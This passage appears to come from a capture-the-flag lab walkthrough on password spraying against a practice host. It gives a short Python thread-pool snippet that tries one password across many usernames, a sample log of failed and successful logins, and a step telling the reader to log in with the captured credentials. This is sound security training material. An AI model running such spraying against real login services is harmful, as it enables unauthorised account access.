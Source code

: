 ```python
with ThreadPoolExecutor(max_workers=50) as executor:
    print("--------- Start spraying -----------")
    tasks = {executor.submit(runner, user) for user in users}
    
    for task in as_completed(tasks):
        print(task.result())
```

## Step 4

### Password Spraying

Now as you have all your needed code wrap the parts together and try to capture the flag. Make sure to update the **password** according to https://pwspray.vm.vuln.land/.

When you add some `print` statements to your code it could look somehow like this.

LOG:

```bash
(('user_140000', 'password'), 401)
(('user_140001', 'password'), 401)
(('user_140002', 'password'), 401)
(('user_140003', 'password'), 401)
(('user_140004', 'password'), 401)
(('user_140005', 'password'), 401)
(('user_140006', 'password'), 401)
(('user_140007', 'password'), 401)
(('user_140008', 'password'), 401)
(('user_140009', 'password'), 401)
...
(('user_140500', 'password'), 401)

-- Succesful logins:
(('user_140237', 'password'), 200)

Total time needed: 0:04:54.442807
```

When you've successfully grabbed valid credentials head over to http://pwspray.vm.vuln.land/ and login manually. You should see the following output.

![Succesfull password spray](../media/challenge/png/successful-spray.png)
